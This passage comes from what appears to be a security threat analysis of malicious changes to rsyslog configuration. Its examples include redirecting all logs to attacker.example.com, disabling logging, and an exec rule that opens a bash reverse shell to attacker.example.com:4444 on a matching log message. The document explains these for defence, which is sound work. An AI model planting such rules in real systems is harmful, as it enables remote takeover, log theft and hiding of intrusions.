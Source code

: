 *   **Potential for Arbitrary Command Execution on the Rsyslog Server:**
    *   **`exec` Action:** The `exec` action in rsyslog allows the execution of arbitrary commands based on log events. An attacker could inject rules that trigger malicious scripts or commands upon specific log entries. This can lead to a full system compromise. For example, a rule could be added to execute a reverse shell upon receiving a specific error message.
    *   **Module Loading:**  While less direct, an attacker could potentially load malicious rsyslog modules if the configuration allows it, although this is less common in typical configurations.
*   **Hindering Incident Response and Forensic Analysis:**
    *   **Missing Evidence:**  Loss of log data makes it difficult or impossible to reconstruct the timeline of an attack, identify the attacker's actions, and understand the scope of the compromise.
    *   **Misleading Information:**  Altering log content or timestamps can intentionally mislead investigators and complicate the incident response process.

#### 4.4. Technical Deep Dive into Exploitation

Here are examples of how an attacker could manipulate the configuration file for malicious purposes:

*   **Redirecting Logs:**
    ```
    # Original output rule (example)
    *.*                                                 /var/log/syslog

    # Malicious modification to redirect to attacker's server
    *.*                                                 @attacker.example.com:514
    ```
    This simple change redirects all logs to the attacker's server.

*   **Disabling Logging:**
    ```
    # Original output rule (example)
    *.*                                                 /var/log/syslog

    # Malicious modification to disable logging
    #*.*                                                 /var/log/syslog
    ```
    Commenting out the output rule effectively disables logging.

*   **Injecting Malicious Command Execution:**
    ```
    # Malicious rule to execute a reverse shell upon a specific error
    if $msg contains 'CRITICAL ERROR' then {
        action(type="exec" program="/bin/bash" name="reverse_shell" parameter="-c" parameter="bash -i >& /dev/tcp/attacker.example.com/4444 0>&1")
        stop
    }
    ```
    This rule uses the `exec` action to execute a reverse shell when a log message containing "CRITICAL ERROR" is received. The `stop` directive prevents further processing of the log message, potentially hiding the execution.
